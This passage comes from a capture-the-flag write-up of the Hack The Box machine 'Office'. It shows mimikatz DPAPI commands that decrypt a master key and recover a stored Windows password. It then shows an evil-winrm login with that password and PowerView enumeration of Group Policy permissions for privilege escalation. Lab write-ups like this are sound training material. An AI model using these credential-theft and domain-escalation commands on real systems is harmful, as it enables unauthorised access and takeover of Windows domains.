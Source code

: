 
We will start by decrypting the key that is used by two files (the one ending with `47eb`).

```
dpapi::masterkey /in:"C:\Users\PPotts\AppData\Roaming\Microsoft\Protect\S-1-5-21-1199398058-4196589450-691661856-1107\191d3f9d-7959-4b4d-a520-a444853c47eb" /rpc
```

![Mimikatz command to decrypt master key](/images/HTB-Office/decrypted-master-key.png)

With the decrypted master key we decrypt the credential file and recover the password `H4ppyFtW183#`.

```
dpapi::cred /in:"C:\Users\PPotts\AppData\Roaming\Microsoft\Credentials\84F1CAEEBF466550F4967858F9353FB4" /masterkey:87eedae4c65e0db47fcbc3e7e337c4cce621157863702adc224caf2eedcfbdbaadde99ec95413e18b0965dcac70344ed9848cd04f3b9491c336c4bde4d1d8166
```

![hhogan password recovered](/images/HTB-Office/HHogan-password.png)

With the newly found credentials we login via evil-winrm as `hhogan`.

```
evil-winrm -u "HHogan" -p "H4ppyFtW183#" -i dc.office.htb
```

![hhogan shell via evil-winrm](/images/HTB-Office/HHogan-shell.png)

## Privilege Escalation

We use `Get-GPO -All` to list all the GPOs of the domain. We find a few interesting ones but we need to check if this user has the permissions to interact with them. We also note their IDs.

![Default domain policy](/images/HTB-Office/Default-Domain-Policy.png)

![Default DC domain policy](/images/HTB-Office/Default-DC-policy.png)

With [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) we enumerate the GPO permissions. After downloading the script we need to import the module in order to use it.

```
Import-Module ./powerview.ps1
Get-NetGroup -name "GPO Managers"
```

![PowerView used to enumerate the GPO Managers group](/images/HTB-Office/Powerview-GPO-Managers.png)

The `GPO Managers` group has an SID of `S-1-5-21-1199398058-4196589450-691661856-1117`.

We specifically target the `Default Domain Controllers Policy` and enumerate its permissions using PowerView.

```
Get-NetGPO | Where-Object { $_.DisplayName -eq "Default Domain Controllers Policy" } | ForEach-Object { Get-ObjectAcl -ResolveGUIDs -Name $_.Name }
```

